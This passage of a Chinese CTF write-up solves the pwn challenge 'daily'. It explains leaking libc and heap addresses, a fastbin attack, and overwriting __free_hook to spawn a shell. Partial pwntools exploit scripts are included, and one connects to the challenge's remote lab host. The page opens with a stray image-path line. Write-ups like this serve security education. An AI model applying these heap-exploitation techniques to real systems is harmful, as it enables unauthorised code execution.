 ```python
system = libc + 0x045390
binsh = libc + 0x18cd57

write(0x158, [pie + pop_rdi_ret, binsh, system, 0, 0, 0, 0, 0])

r.interactive()
```



##	daily

`remove`的时候没有对`index`进行范围检测.

![](https://ws1.sinaimg.cn/large/64ef14dcgy1g2ap5am3uuj20a3062aa1.jpg)

先利用`unsorted bin`泄露`libc`,再利用`fastbin`单链表泄露`heap`基址.

申请一个`chunk`,在里面伪造一个堆指针和对应的`faker chunk`.
`free`掉这个`faker chunk`,通过`edit`构造其`fd`到`bss`上,由于`length`可控,通过`remove`构造出一个`chunk`头部绕过检查.
成功`fastbin attack`,获得任意读写的能力,由于程序开了`Full RELRO`所以劫持`__free_hook`调用`system(binsh);`获得`flag`.

```python
from pwn import *

context.log_level = 'debug'
#r = process("./pwn")
ptr = 0x602060
r = remote("85c3e0fcae5e972af313488de60e8a5a.kr-lab.com", "58512")

def show():
    r.sendline(str(1))
    data = r.recvuntil("Your choice:")
    return data

def add(length, content):
    r.sendline(str(2))
    r.recvuntil("of daily:")
    r.sendline(str(length))
    r.recvuntil("daily\n")
    r.send(content)
    r.recvuntil("Your choice:")

def edit(index, content):
    r.sendline(str(3))
    r.recvuntil("of daily:")
    r.sendline(str(index))
    r.recvuntil("daily\n")
    r.send(content)
    r.recvuntil("Your choice:")

def remove(index):
    r.sendline(str(4))
    r.recvuntil("of daily:")
    r.sendline(str(index))
    r.recvuntil("Your choice:")

r.recvuntil("Your choice:")

add(0x100, 'a')#0
add(0x100, 'b')#1
add(0x100, 'c')#2
add(0x100, 'd')#3
remove(0)
remove(2)
```